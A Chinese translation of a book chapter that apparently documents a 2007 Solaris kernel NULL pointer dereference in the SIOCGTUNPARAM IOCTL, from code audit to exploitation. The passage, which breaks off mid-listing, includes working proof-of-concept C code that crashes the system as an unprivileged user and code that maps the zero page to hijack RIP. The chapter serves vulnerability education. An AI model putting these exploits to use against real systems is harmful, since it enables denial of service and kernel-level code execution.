


# 第三章 逃离 WWW 区域

### 注意

*2007 年 8 月 23 日，星期四*

*亲爱的日记*，

我一直对操作系统内核中的漏洞很感兴趣，因为它们通常很有趣，非常强大，而且很难利用。我最近仔细检查了几个操作系统内核以寻找漏洞。我检查的一个内核是 Sun Solaris 的内核。猜猜看？我成功了。

### 注意

*2010 年 1 月 27 日，Sun 被甲骨文公司收购。甲骨文现在通常将 Solaris 称为“Oracle Solaris”。*

# 3.1 漏洞发现

自从 2005 年 6 月 OpenSolaris 发布以来，Sun 已经将大多数 Solaris 10 操作系统作为开源软件免费提供，包括内核。因此，我下载了源代码 23]并开始阅读内核代码，重点关注实现用户到内核接口的部分，如 IOCTLs 和系统调用。

### 注意

*输入/输出控制（IOCTLs）用于用户模式应用程序和内核之间的通信。24]

*任何导致信息被传递到内核进行处理的用户到内核接口或 API 都会创建一个潜在的攻击向量。最常用的包括*：

+   *IOCTLs*

+   *系统调用*

+   *文件系统*

+   *网络栈*

+   *第三方驱动程序的钩子*

我发现的漏洞是我发现的最有趣的之一，因为其成因——一个未定义的错误条件——对于一个可利用的漏洞来说是不寻常的（与平均的溢出漏洞相比）。它影响了`SIOCGTUNPARAM` IOCTL 调用的实现，这是 Solaris 内核提供的 IP-in-IP 隧道机制的一部分。25

我采取了以下步骤来发现漏洞：

+   第 1 步：列出内核的 IOCTLs。

+   第 2 步：识别输入数据。

+   第 3 步：跟踪输入数据。

这些步骤在下面将详细描述。

## 第 1 步：列出内核的 IOCTLs。

有不同的方法可以生成内核 IOCTLs 的列表。在这种情况下，我简单地搜索了内核源代码中的常用 IOCTL 宏。每个 IOCTL 都有自己的编号，通常由宏创建。根据 IOCTL 类型，Solaris 内核定义了以下宏：`_IOR`、`_IOW`和`_IOWR`。要列出 IOCTLs，我切换到了解包内核源代码的目录，并使用 Unix 的`grep`命令搜索代码。

```
solaris$ `pwd`
/exports/home/tk/on-src/usr/src/uts

solaris$ `grep -rnw -e _IOR -e _IOW -e _IOWR *`
[..]
common/sys/sockio.h:208:#define SIOCTONLINK     _IOWR('i', 145, struct sioc_addr req)
common/sys/sockio.h:210:#define SIOCTMYSITE     _IOWR('i', 146, struct sioc_addr req)
common/sys/sockio.h:213:#define SIOCGTUNPARAM   _IOR('i',  147, struct iftun_req)
common/sys/sockio.h:216:#define SIOCSTUNPARAM   _IOW('i',  148, struct iftun_req)
common/sys/sockio.h:220:#define SIOCFIPSECONFIG _IOW('i',  149, 0) /* Flush Policy  */
common/sys/sockio.h:221:#define SIOCSIPSECONFIG _IOW('i',  150, 0) /* Set Policy */
common/sys/sockio.h:222:#define SIOCDIPSECONFIG _IOW('i',  151, 0) /* Delete Policy */
common/sys/sockio.h:223:#define SIOCLIPSECONFIG _IOW('i',  152, 0) /* List Policy */
[..]
```

现在我有了 Solaris 内核支持的 IOCTL 名称列表。为了找到实际处理这些 IOCTLs 的源文件，我在整个内核源代码中搜索列表中的每个 IOCTL 名称。以下是对`SIOCTONLINK` IOCTL 的搜索示例：

```
solaris$ `grep --include=*.c -rn SIOCTONLINK *`
common/inet/ip/ip.c:1267:    /* 145 */ { SIOCTONLINK,
 sizeof (struct sioc_add rreq), → IPI_GET_CMD,
```

## 第 2 步：识别输入数据

Solaris 内核为 IOCTL 处理提供了不同的接口。与我发现的漏洞相关的接口是一个称为 *STREAMS* 的编程模型。26] 直观地说，基本的 STREAMS 单元被称为 *Stream*，它是用户空间进程和内核之间的数据传输路径。所有在 STREAMS 下的内核级输入和输出都基于 STREAMS 消息，这些消息通常包含以下元素：数据缓冲区、数据块和消息块。*数据缓冲区* 是消息实际数据存储在内存中的位置。*数据块* (`struct datab`) 描述了数据缓冲区。*消息块* (`struct msgb`) 描述了数据块以及数据的使用方式。

消息块结构具有以下公共元素。

**源代码文件**

*uts/common/sys/stream.h*^([27])

```
[..]
367    /*
368     * Message block descriptor
369     */
370    typedef struct        msgb {
371        struct    msgb    *b_next;
372        struct    msgb    *b_prev;
373        struct    msgb    *b_cont;
`374        unsigned char     *b_rptr;`
`375        unsigned char     *b_wptr;`
`376        struct datab      *b_datap;`
377        unsigned char     b_band;
378        unsigned char     b_tag;
379        unsigned short    b_flag;
380        queue_t           *b_queue;    /* for sync queues */
`381    } mblk_t;`
[..]
```

结构元素 `b_rptr` 和 `b_wptr` 指定了由 `b_datap` 指向的数据缓冲区中的当前读和写指针（参见 图 3-1）。


图 3-1. 简单 STREAMS 消息的示意图

在使用 STREAMS 模型时，`msgb` 结构的 `b_rptr` 元素或其类型定义 `mblk_t` 引用了 IOCTL 输入数据。STREAMS 模型的另一个重要组成部分是所谓的 *链式消息块*。如 *STREAMS 编程指南* 所述，“一个复杂消息可以由多个链式消息块组成。如果缓冲区大小有限或处理扩展了消息，则消息中会形成多个消息块”（参见 图 3-2）。


图 3-2. 链式 STREAMS 消息块的示意图

## 第 3 步：追踪输入数据

我随后审查了 IOCTL 列表，并像往常一样在代码中搜索输入数据，同时追踪这些数据以寻找编码错误。几小时后，我发现了一个漏洞。

**源代码文件**

*uts/common/inet/ip/ip.c*

**函数**

`ip_process_ioctl()`^([28])

```
[..]
26692    void
26693    ip_process_ioctl(ipsq_t *ipsq, queue_t *q, mblk_t *mp, void *arg)
26694    {
[..]
`26717        ci.ci_ipif = NULL;`
[..]
`26735        case TUN_CMD:`
26736            /*
26737             * SIOC[GS]TUNPARAM appear here. ip_extract_tunreq returns
26738             * a refheld ipif in ci.ci_ipif
26739             */
`26740            err = ip_extract_tunreq(q, mp, &ci.ci_ipif, ip_process_ioctl);`
[..]
```

当向内核发送 `SIOCGTUNPARAM` IOCTL 请求时，会调用 `ip_process_ioctl()` 函数。在第 26717 行，`ci.ci_ipif` 的值被显式设置为 `NULL`。由于 `SIOCGTUNPARAM` IOCTL 调用，选择开关 `TUN_CMD`（参见第 26735 行），并调用 `ip_extract_tunreq()` 函数（参见第 26740 行）。

**源代码文件**

*uts/common/inet/ip/ip_if.c*

**函数**

`ip_extract_tunreq()`^([29])

```
[..]
8158    /*
8159     * Parse an iftun_req structure coming down SIOC[GS]TUNPARAM ioctls,
8160     * refhold and return the associated ipif
8161     */
8162    /* ARGSUSED */
8163    int
8164    ip_extract_tunreq(queue_t *q, `mblk_t *mp`, const ip_ioctl_cmd_t *ipip,
8165        cmd_info_t *ci, ipsq_func_t func)
8166    {
8167        boolean_t exists;
`8168        struct iftun_req *ta;`
8169        ipif_t     *ipif;
8170        ill_t      *ill;
8171        boolean_t  isv6;
8172        mblk_t     *mp1;
8173        int        error;
8174        conn_t     *connp;
8175        ip_stack_t *ipst;
8176
8177        /* Existence verified in ip_wput_nondata */
`8178        mp1 = mp->b_cont->b_cont;`
`8179        ta = (struct iftun_req *)mp1->b_rptr;`
8180        /*
8181         * Null terminate the string to protect against buffer
8182         * overrun. String was generated by user code and may not
8183         * be trusted.
8184         */
8185       ta->ifta_lifr_name[LIFNAMSIZ - 1] = '\0';
8186
8187       connp = Q_TO_CONN(q);
8188       isv6 = connp->conn_af_isv6;
8189       ipst = connp->conn_netstack->netstack_ip;
8190
8191       /* Disallows implicit create */
`8192       ipif = ipif_lookup_on_name(ta->ifta_lifr_name,`
`8193           mi_strlen(ta->ifta_lifr_name), B_FALSE, &exists, isv6,`
`8194           connp->conn_zoneid, CONNP_TO_WQ(connp), mp, func, &error, ipst);`
[..]
```

在第 8178 行，引用了一个链接的 STREAMS 消息块，在第 8179 行，结构 `ta` 被填充了用户控制的 IOCTL 数据。稍后，调用了函数 `ipif_lookup_on_name()`（见第 8192 行）。`ipif_lookup_on_name()` 的前两个参数来自结构 `ta` 的用户可控制数据。

**源代码文件**

*uts/common/inet/ip/ip_if.c*

**函数**

`ipif_lookup_on_name()`

```
[..]
19116    /*
19117     * Find an IPIF based on the name passed in.  Names can be of the
19118     * form <phys> (e.g., le0), <phys>:<#> (e.g., le0:1),
19119     * The <phys> string can have forms like <dev><#> (e.g., le0),
19120     * <dev><#>.<module> (e.g. le0.foo), or <dev>.<module><#> (e.g. ip.tun3).
19121     * When there is no colon, the implied unit id is zero. <phys> must
19122     * correspond to the name of an ILL.  (May be called as writer.)
19123     */
19124    static ipif_t *
19125    ipif_lookup_on_name(`char *name`, size_t namelen, boolean_t do_alloc,
19126        boolean_t *exists, boolean_t isv6, zoneid_t zoneid, queue_t *q,
19127        mblk_t *mp, ipsq_func_t func, int *error, ip_stack_t *ipst)
19128    {
[..]
19138       if (error != NULL)
`19139           *error = 0;`
[..]
`19154       /* Look for a colon in the name. */`
`19155       endp = &name[namelen];`
`19156       for (cp = endp; --cp > name; ) {`
`19157           if (*cp == IPIF_SEPARATOR_CHAR)`
`19158               break;`
`19159       }`
19160
`19161       if (*cp == IPIF_SEPARATOR_CHAR) {`
19162           /*
19163            * Reject any non-decimal aliases for logical
19164            * interfaces. Aliases with leading zeroes
19165            * are also rejected as they introduce ambiguity
19166            * in the naming of the interfaces.
19167            * In order to confirm with existing semantics,
19168            * and to not break any programs/script relying
19169            * on that behaviour, if<0>:0 is considered to be
19170            * a valid interface.
19171            *
19172            * If alias has two or more digits and the first
19173            * is zero, fail.
19174            */
`19175           if (&cp[2] < endp && cp[1] == '0')`
`19176               return (NULL);`
19177       }
[..]
```

在第 19139 行，`error` 的值被显式设置为 0。然后在第 19161 行，用户通过 IOCTL 数据提供的接口名称检查是否存在冒号（`IPIF_SEPARATOR_CHAR` 被定义为冒号）。如果在名称中找到冒号，冒号之后的字节被视为接口别名。如果别名有两个或更多数字，并且第一个是零（ASCII 零或十六进制 `0x30`；见第 19175 行），则函数 `ipif_lookup_on_name()` 将返回 `NULL` 给 `ip_extract_tunreq()`，并且变量 `error` 仍然设置为 0（见第 19139 和 19176 行）。

**源代码文件**

*uts/common/inet/ip/ip_if.c*

**函数**

`ip_extract_tunreq()`

```
[..]
8192    ipif = ipif_lookup_on_name(ta->ifta_lifr_name,
8193        mi_strlen(ta->ifta_lifr_name), B_FALSE, &exists, isv6,
8194        connp->conn_zoneid, CONNP_TO_WQ(connp), mp, func, &error, ipst);
8195    if (ipif == NULL)
8196        return (error);
[..]
```

回到 `ip_extract_tunreq()`，如果 `ipif_lookup_on_name()` 返回该值，则指针 `ipif` 被设置为 `NULL`（见第 8192 行）。由于 `ipif` 是 `NULL`，第 8195 行的 `if` 语句返回 `TRUE`，第 8196 行被执行。然后 `ip_extract_tunreq()` 函数将 `error` 作为返回值返回给 `ip_process_ioctl()`，该返回值仍然设置为 0。

**源代码文件**

*uts/common/inet/ip/ip.c*

**函数**

`ip_process_ioctl()`

```
[..]
`26717   ci.ci_ipif = NULL;`
[..]
26735     case TUN_CMD:
26736         /*
26737          * SIOC[GS]TUNPARAM appear here. ip_extract_tunreq returns
26738          * a refheld ipif in ci.ci_ipif
26739          */
`26740         err = ip_extract_tunreq(q, mp, &ci.ci_ipif, ip_process_ioctl);`
`26741         if (err != 0) {`
26742             ip_ioctl_finish(q, mp, err, IPI2MODE(ipip), NULL);
26743             return;
26744         }
[..]
`26788         err = (*ipip->ipi_func)(ci.ci_ipif, ci.ci_sin, q, mp, ipip,`
`26789             ci.ci_lifr);`
[..]
```

在 `ip_process_ioctl()` 函数中，变量 `err` 被设置为 0，因为 `ip_extract_tunreq()` 返回该值（见第 26740 行）。由于 `err` 等于 0，第 26741 行的 `if` 语句返回 `FALSE`，第 26742 和 26743 行不执行。在第 26788 行，`ipip->ipi_func` 指向的函数——在本例中是 `ip_sioctl_tunparam()` 函数——被调用，而第一个参数 `ci.ci_ipif` 仍然设置为 `NULL`（见第 26717 行）。

**源代码文件**

*uts/common/inet/ip/ip_if.c*

**函数**

`ip_sioctl_tunparam()`

```
[..]
9401    int
9402    ip_sioctl_tunparam(`ipif_t *ipif`, sin_t *dummy_sin, queue_t *q, mblk_t *mp,
9403        ip_ioctl_cmd_t *ipip, void *dummy_ifreq)
9404    {
[..]
`9432        ill = ipif->ipif_ill;`
[..]
```

由于 `ip_sioctl_tunparam()` 的第一个参数是 `NULL`，第 9432 行的 `ipif->ipif_ill` 引用可以表示为 `NULL->ipif_ill`，这是一个经典的空指针解引用。如果触发这种空指针解引用，整个系统将由于内核恐慌而崩溃。（有关空指针解引用的更多信息，请参阅第 A.2 节。）

目前结果总结：

+   Solaris 系统的无权限用户可以调用 `SIOCGTUNPARAM` IOCTL（见图 3-3 中的(1)）。

+   如果发送到内核的 IOCTL 数据被精心构造——必须有一个接口名称，该名称直接跟一个 ASCII 零和一个任意数字——则可以触发空指针解引用（见图 3-3 中的（2）），这会导致系统崩溃（见图 3-3 中的（3））。

但为什么可以触发那个空指针解引用？导致错误的编码错误究竟在哪里？

问题在于 `ipif_lookup_on_name()` 可以被强制返回到其调用函数，而无需设置适当的错误条件。

这个错误部分存在是因为 `ipif_lookup_on_name()` 函数以两种不同的方式向其调用函数报告错误条件：通过函数的返回值（`return (null)`）以及通过变量 `error`（`*error != 0`）。每次函数被调用时，内核代码的作者必须确保两个错误条件都得到适当的设置，并在调用函数中正确评估。这种编码风格容易出错，因此不推荐使用。本章中描述的漏洞是这种代码可能引起的问题的一个很好的例子。


图 3-3. 到目前为止的结果总结。一个非特权用户可以通过在 Solaris 内核中触发空指针解引用来强制系统崩溃。

**源代码文件**

*uts/common/inet/ip/ip_if.c*

**函数**

`ipif_lookup_on_name()`

```
[..]
19124    static ipif_t *
19125    ipif_lookup_on_name(char *name, size_t namelen, boolean_t do_alloc,
19126        boolean_t *exists, boolean_t isv6, zoneid_t zoneid, queue_t *q,
19127        mblk_t *mp, ipsq_func_t func, int *error, ip_stack_t *ipst)
19128    {
[..]
19138       if (error != NULL)
`19139           *error = 0;`
[..]
19161       if (*cp == IPIF_SEPARATOR_CHAR) {
19162           /*
19163            * Reject any non-decimal aliases for logical
19164            * interfaces. Aliases with leading zeroes
19165            * are also rejected as they introduce ambiguity
19166            * in the naming of the interfaces.
19167            * In order to confirm with existing semantics,
19168            * and to not break any programs/script relying
19169            * on that behaviour, if<0>:0 is considered to be
19170            * a valid interface.
19171            *
19172            * If alias has two or more digits and the first
19173            * is zero, fail.
19174            */
`19175           if (&cp[2] < endp && cp[1] == '0')`
`19176               return (NULL);`
19177       }
[..]
```

在第 19139 行，保存一个错误条件的 `error` 的值被明确设置为 0。错误条件 0 表示到目前为止没有发生错误。通过在接口名称中直接提供一个冒号后跟一个 ASCII 零和一个任意数字，可以触发第 19176 行的代码，这会导致返回调用函数。问题是函数返回之前没有为 `error` 设置有效的错误条件。因此，`ipif_lookup_on_name()` 以 `error` 仍然设置为 0 的状态返回到 `ip_extract_tunreq()`。

**源代码文件**

*uts/common/inet/ip/ip_if.c*

**函数**

`ip_extract_tunreq()`

```
[..]
8192    ipif = ipif_lookup_on_name(ta->ifta_lifr_name,
8193        mi_strlen(ta->ifta_lifr_name), B_FALSE, &exists, isv6,
8194        connp->conn_zoneid, CONNP_TO_WQ(connp), mp, func, `&error`, ipst);
8195    if (ipif == NULL)
`8196        return (error);`
[..]
```

在 `ip_extract_tunreq()` 函数中，错误条件被返回给其调用函数 `ip_process_ioctl()`（见第 8196 行）。

**源代码文件**

*uts/common/inet/ip/ip.c*

**函数**

`ip_process_ioctl()`

```
[..]
26735     case TUN_CMD:
26736         /*
26737          * SIOC[GS]TUNPARAM appear here. ip_extract_tunreq returns
26738          * a refheld ipif in ci.ci_ipif
26739          */
`26740         err = ip_extract_tunreq(q, mp, &ci.ci_ipif, ip_process_ioctl);`
`26741         if (err != 0) {`
26742             ip_ioctl_finish(q, mp, err, IPI2MODE(ipip), NULL);
26743             return;
26744         }
[..]
`26788         err = (*ipip->ipi_func)(ci.ci_ipif, ci.ci_sin, q, mp, ipip,`
`26789             ci.ci_lifr);`
[..]
```

然后在 `ip_process_ioctl()` 函数中，错误条件仍然设置为 0。因此，第 26741 行的 `if` 语句返回 `FALSE`，内核继续执行函数的其余部分，导致在 `ip_sioctl_tunparam()` 中发生空指针解引用。

多好的一个漏洞啊！

图 3-4 显示了一个调用图，总结了涉及空指针解引用错误的函数之间的关系。



图 3-4. 总结涉及空指针解引用错误的函数之间关系的调用图。显示的数字表示事件的顺序。

# 3.2 利用

利用这个漏洞是一个令人兴奋的挑战。空指针解引用通常被标记为不可利用的错误，因为它们通常可以用于拒绝服务攻击，但不能用于任意代码执行。然而，这个空指针解引用是不同的，因为它可以在内核级别成功用于任意代码执行。

### 注意

*我在本节中使用的平台是 Solaris 10 10/08 x86/x64 DVD 全镜像（sol-10-u6-ga1-x86-dvd.iso），被称为 Solaris 10 Generic_137138-09*。

要利用这个漏洞，我执行了以下步骤：

1.  触发空指针解引用以实现拒绝服务。

1.  使用零页来控制 `EIP`/`RIP`。

## 第 1 步：触发空指针解引用以实现拒绝服务

要触发空指针解引用，我编写了以下 PoC 代码（见 示例 3-1"))。

示例 3-1. 我编写的用于触发在 Solaris 中发现的空指针解引用错误的 PoC 代码（*poc.c*）。

```
01    #include <stdio.h>
02    #include <fcntl.h>
03    #include <sys/syscall.h>
04    #include <errno.h>
05    #include <sys/sockio.h>
06    #include <net/if.h>
07
08    int
09    main (void)
10    {
11           int       fd  = 0;
12           char      data[32];
13
14           fd = open ("/dev/arp", O_RDWR);
15
16           if (fd < 0) {
17                   perror ("open");
18                   return 1;
19           }
20
21           // IOCTL data (interface name with invalid alias ":01")
22           data[0] = 0x3a; // colon
23           data[1] = 0x30; // ASCII zero
24           data[2] = 0x31; // digit 1
25           data[3] = 0x00; // NULL termination
26
27           // IOCTL call
28           syscall (SYS_ioctl, fd, SIOCGTUNPARAM, data);
29
30           printf ("poc failed\n");
31           close (fd);
32
33           return 0;
34    }
```

PoC 代码首先打开内核网络设备 `/dev/arp`（见第 14 行）。请注意，设备 `/dev/tcp` 和 `/dev/udp` 也支持 `SIOCGTUNPARAM` IOCTL，因此可以用它们代替 `/dev/arp`。接下来，准备 IOCTL 数据（见第 22-25 行）。数据由一个具有无效别名 `:01` 的接口名称组成，以触发错误。最后调用 `SIOCGTUNPARAM` IOCTL 并将 IOCTL 数据发送到内核（见第 28 行）。

然后，我将 PoC 代码作为一个无特权的用户在 Solaris 10 64 位系统上编译和测试：

```
solaris$ `isainfo -b`
64

solaris$ `id`
uid=100(wwwuser) gid=1(other)

solaris$ `uname -a`
SunOS bob 5.10 Generic_137138-09 i86pc i386 i86pc

solaris$ `/usr/sfw/bin/gcc -m64 -o poc poc.c`

solaris$ `./poc`
```

系统立即崩溃并重新启动。重启后，我以 root 身份登录，并在 Solaris 模块化调试器（mdb）的帮助下检查了内核崩溃文件^([30])（有关以下调试器命令的描述，请参阅 B.1 节）：

```
solaris# `id`
uid=0(root) gid=0(root)

solaris# `hostname`
bob

solaris# `cd /var/crash/bob/`

solaris# `ls`
bounds    unix.0    vmcore.0

solaris# `mdb unix.0 vmcore.0`
Loading modules: [ unix krtld genunix specfs dtrace cpu.generic
 uppc pcplusmp ufs ip hook neti sctp arp usba fcp fctl nca lofs mpt zfs
 random sppp audiosup nfs ptm md cpc crypto fcip logindmux ]
```

我使用了`::msgbuf`调试器命令来显示消息缓冲区，包括所有控制台消息，直到内核恐慌：

```
> `::msgbuf`
[..]
panic[cpu0]/thread=ffffffff87d143a0:
BAD TRAP: type=e (#pf Page fault) rp=fffffe8000f7e5a0 addr=8
 occurred in module "ip" due to a `NULL pointer dereference`

poc:
#pf Page fault
Bad kernel fault at addr=0x8
pid=1380, pc=0xfffffffff6314c7c, sp=0xfffffe8000f7e690, eflags=0x10282
cr0: 80050033<pg,wp,ne,et,mp,pe> cr4: 6b0<xmme,fxsr,pge,pae,pse>
cr2: 8 cr3: 21a2a000 cr8: c
        rdi:                0 rsi: ffffffff86bc0700 rdx: ffffffff86bc09c8
        rcx:                0  r8: fffffffffbd0fdf8  r9: fffffe8000f7e780
        rax:                c rbx: ffffffff883ff200 rbp: fffffe8000f7e6d0
        r10:                1 r11:                0 r12: ffffffff8661f380
        `r13:                0` r14: ffffffff8661f380 r15: ffffffff819f5b40
        fsb: fffffd7fff220200 gsb: fffffffffbc27fc0  ds:                0
         es:                0  fs:              1bb  gs:                0
        trp:                e err:                0 `rip: fffffffff6314c7c`
         cs:               28 rfl:            10282 rsp: fffffe8000f7e690
         ss:               30

fffffe8000f7e4b0 unix:die+da ()
fffffe8000f7e590 unix:trap+5e6 ()
fffffe8000f7e5a0 unix:_cmntrap+140 ()
`fffffe8000f7e6d0 ip:ip_sioctl_tunparam+5c ()`
fffffe8000f7e780 ip:ip_process_ioctl+280 ()
fffffe8000f7e820 ip:ip_wput_nondata+970 ()
fffffe8000f7e910 ip:ip_output_options+537 ()
fffffe8000f7e920 ip:ip_output+10 ()
fffffe8000f7e940 ip:ip_wput+37 ()
fffffe8000f7e9a0 unix:putnext+1f1 ()
fffffe8000f7e9d0 arp:ar_wput+9d ()
fffffe8000f7ea30 unix:putnext+1f1 ()
fffffe8000f7eab0 genunix:strdoioctl+67b ()
fffffe8000f7edd0 genunix:strioctl+620 ()
fffffe8000f7edf0 specfs:spec_ioctl+67 ()
fffffe8000f7ee20 genunix:fop_ioctl+25 ()
fffffe8000f7ef00 genunix:ioctl+ac ()
fffffe8000f7ef10 unix:brand_sys_syscall+21d ()

syncing file systems...
 done
dumping to /dev/dsk/c0d0s1, offset 107413504, content: kernel
```

调试器输出显示，内核恐慌是由于地址`0xfffffffff6314c7c`处的空指针解引用引起的（请参阅`RIP`寄存器的值）。接下来，我要求调试器显示该地址处的指令：

```
> `0xfffffffff6314c7c::dis`
ip_sioctl_tunparam+0x30:        jg     +0xf0    <ip_sioctl_tunparam+0x120>
ip_sioctl_tunparam+0x36:        movq   0x28(%r12),%rax
ip_sioctl_tunparam+0x3b:        movq   0x28(%rbx),%rbx
ip_sioctl_tunparam+0x3f:        movq   %r12,%rdi
ip_sioctl_tunparam+0x42:        movb   $0xe,0x19(%rax)
ip_sioctl_tunparam+0x46:        call   +0x5712cfa       <copymsg>
ip_sioctl_tunparam+0x4b:        movq   %rax,%r15
ip_sioctl_tunparam+0x4e:        movl   $0xc,%eax
ip_sioctl_tunparam+0x53:        testq  %r15,%r15
ip_sioctl_tunparam+0x56:        je     +0x9d    <ip_sioctl_tunparam+0xf3>
`ip_sioctl_tunparam+0x5c:        movq   0x8(%r13),%r14`
[..]
```

崩溃是由地址`ip_sioctl_tunparam+0x5c`处的指令`movq 0x8(%r13),%r14`引起的。该指令试图引用寄存器`r13`指向的值。正如`::msgbuf`命令的调试器输出所示，在崩溃时`r13`的值为 0。因此，汇编指令相当于在`ip_sioctl_tunparam()`中发生的空指针解引用（请参阅以下代码片段中的第 9432 行）。

**源代码文件**

*uts/common/inet/ip/ip_if.c*

**函数**

`ip_sioctl_tunparam()`

```
[..]
9401    int
9402    ip_sioctl_tunparam(ipif_t *ipif, sin_t *dummy_sin, queue_t *q, mblk_t *mp,
9403        ip_ioctl_cmd_t *ipip, void *dummy_ifreq)
9404    {
[..]
`9432        ill = ipif->ipif_ill;`
[..]
```

我能够证明这个漏洞可以被无权限用户成功利用来使系统崩溃。因为所有 Solaris Zones 共享相同的内核，所以即使漏洞在无权限的非全局区域触发，也有可能使整个系统（所有区域）崩溃（请参阅 C.3 节以获取有关 Solaris Zones 技术的更多信息）。如果被恶意意图的人利用，任何使用 Solaris Zones 功能的托管服务提供商都可能受到严重影响。

## 步骤 2：使用零页来控制 EIP/RIP

在我能够使系统崩溃后，我决定尝试任意代码执行。为此，我必须解决以下两个问题：

+   防止系统因空指针解引用而崩溃。

+   控制 EIP/RIP。

系统崩溃是由空指针解引用引起的。由于零页或空页通常未映射，解引用会导致访问违规，从而使系统崩溃（也请参阅 A.2 节）。为了防止系统崩溃，我必须在触发空指针解引用之前映射零页。在 x86 和 AMD64 架构上，这可以很容易地完成，因为 Solaris 将这些平台上的进程的虚拟地址空间划分为两部分：用户空间和内核空间（请参阅图 3-5）。用户空间是所有用户模式应用程序运行的地方，而内核空间是内核本身以及内核扩展（例如，驱动程序）运行的地方。然而，内核和一个进程的用户空间共享相同的零页.^([31])

### 注意

每个用户模式地址空间都是特定进程独有的，而内核地址空间是所有进程共享的。在一个进程中映射 NULL 页只会导致它在该进程的地址空间中映射。


图 3-5.进程的虚拟地址空间（Solaris x86 64 位）^([32])

通过在触发空指针解引用之前映射零页，我能够防止系统崩溃。这让我遇到了下一个问题：如何控制`EIP`/`RIP`？唯一完全受我控制的数据是发送给内核的 IOCTL 数据和进程的用户空间数据，包括零页。唯一的方法是让内核引用零页中的某些数据，这些数据将后来用于控制内核的执行流程。我以为这种方法不会奏效，但我错了。

**源代码文件**

*uts/common/inet/ip/ip_if.c*

**函数**

`ip_sioctl_tunparam()`

```
[..]
9401    int
9402    ip_sioctl_tunparam(ipif_t *ipif, sin_t *dummy_sin, queue_t *q, mblk_t *mp,
9403        ip_ioctl_cmd_t *ipip, void *dummy_ifreq)
9404    {
[..]
`9432        ill = ipif->ipif_ill;`
9433        mutex_enter(&connp->conn_lock);
9434        mutex_enter(&ill->ill_lock);
9435        if (ipip->ipi_cmd == SIOCSTUNPARAM || ipip->ipi_cmd == OSIOCSTUNPARAM) {
9436            success = ipsq_pending_mp_add(connp, ipif, CONNP_TO_WQ(connp),
9437                mp, 0);
9438        } else {
9439            success = ill_pending_mp_add(ill, connp, mp);
9440        }
9441        mutex_exit(&ill->ill_lock);
9442        mutex_exit(&connp->conn_lock);
9443
9444        if (success) {
9445            ip1dbg(("sending down tunparam request "));
`9446            putnext(ill->ill_wq, mp1);`
[..]
```

当`ipif`被强制设置为`NULL`时，在第 9432 行发生空指针解引用，这导致系统崩溃。但如果在解引用`NULL`之前映射零页，则不会触发访问违规，系统也不会崩溃。相反，在引用零页中的有效用户可控数据时，会确定`ill`结构体的值。因此，可以通过精心构建零页数据来控制`ill`结构体的所有值。我很高兴地发现，在第 9446 行，`putnext()`函数被调用，其参数是用户可控的`ill->ill_wq`值。

**源代码文件**

*uts/common/os/putnext.c*

**函数**

`putnext()`^([33])

```
[..]
146    void
`147    putnext(queue_t *qp, mblk_t *mp)`
148    {
[..]
`154        int        (*putproc)();`
[..]
`176        qp = qp->q_next;`
`177        sq = qp->q_syncq;`
178        ASSERT(sq != NULL);
179        ASSERT(MUTEX_NOT_HELD(SQLOCK(sq)));
`180        qi = qp->q_qinfo;`
[..]
268        /*
269         * We now have a claim on the syncq, we are either going to
270         * put the message on the syncq and then drain it, or we are
271         * going to call the putproc().
272         */
`273        putproc = qi->qi_putp;`
274        if (!queued) {
275            STR_FTEVENT_MSG(mp, fqp, FTEV_PUTNEXT, mp->b_rptr -
276                mp->b_datap->db_base);
`277            (*putproc)(qp, mp);`
[..]
```

用户可以完全控制`putnext()`的第一个函数参数的数据，这意味着`qp`、`sq`和`qi`的值也可以通过映射零页的数据来控制（参见第 176、177 和 180 行）。此外，用户还可以控制第 154 行声明的函数指针的值（参见第 273 行）。然后，该函数指针在第 277 行被调用。

因此，总结来说，如果映射零页的数据被精心构建，就有可能控制函数指针，从而完全控制`EIP`/`RIP`，并在内核级别实现任意代码执行。

我使用了以下 POC 代码来控制`EIP`/`RIP`：

示例 3-2.用于控制 EIP/RIP 并因此实现内核任意代码执行的 POC 代码（*poc2.c*）。

```
01    #include <string.h>
 02    #include <stdio.h>
 03    #include <unistd.h>
 04    #include <fcntl.h>
 05    #include <sys/syscall.h>
 06    #include <sys/sockio.h>
 07    #include <net/if.h>
 08    #include <sys/mman.h>
 09
 10    ////////////////////////////////////////////////
 11    // Map the zero page and fill it with the
 12    // necessary data
 13    int
 14    map_null_page (void)
 15    {
 16      void *  mem = (void *)-1;
 17
 18      // map the zero page
 19      mem = mmap (NULL, PAGESIZE, PROT_EXEC|PROT_READ|PROT_WRITE,
 20                  MAP_FIXED|MAP_PRIVATE|MAP_ANON, −1, 0);
 21
 22      if (mem != NULL) {
 23        printf ("failed\n");
 24        fflush (0);
 25        perror ("[-] ERROR: mmap");
 26        return 1;
 27      }
 28
 29      // fill the zero page with zeros
 30      memset (mem, 0x00, PAGESIZE);
 31
 32      ////////////////////////////////////////////////
 33      // zero page data
 34
 35      // qi->qi_putp
 36      *(unsigned long long *)0x00 = 0x0000000041414141;
 37
 38      // ipif->ipif_ill
 39      *(unsigned long long *)0x08 = 0x0000000000000010;
 40
 41      // start of ill struct (ill->ill_ptr)
 42      *(unsigned long long *)0x10 = 0x0000000000000000;
 43
 44      // ill->rq
 45      *(unsigned long long *)0x18 = 0x0000000000000000;
 46
 47      // ill->wq (sets address for qp struct)
 48      *(unsigned long long *)0x20 = 0x0000000000000028;
 49
 50      // start of qp struct (qp->q_info)
 51      *(unsigned long long *)0x28 = 0x0000000000000000;
 52
 53      // qp->q_first
 54      *(unsigned long long *)0x30 = 0x0000000000000000;
 55
 56      // qp->q_last
 57      *(unsigned long long *)0x38 = 0x0000000000000000;
 58
 59      // qp->q_next (points to the start of qp struct)
 60      *(unsigned long long *)0x40 = 0x0000000000000028;
 61
 62      // qp->q_syncq
 63      *(unsigned long long *)0xa0 = 0x00000000000007d0;
 64
 65      return 0;
 66    }
 67
 68    void
 69    status (void)
 70    {
 71      unsigned long long  i = 0;
 72
 73      printf ("[+] PAGESIZE: %d\n", (int)PAGESIZE);
 74      printf ("[+] Zero page data:\n");
 75
 76      for (i = 0; i <= 0x40; i += 0x8)
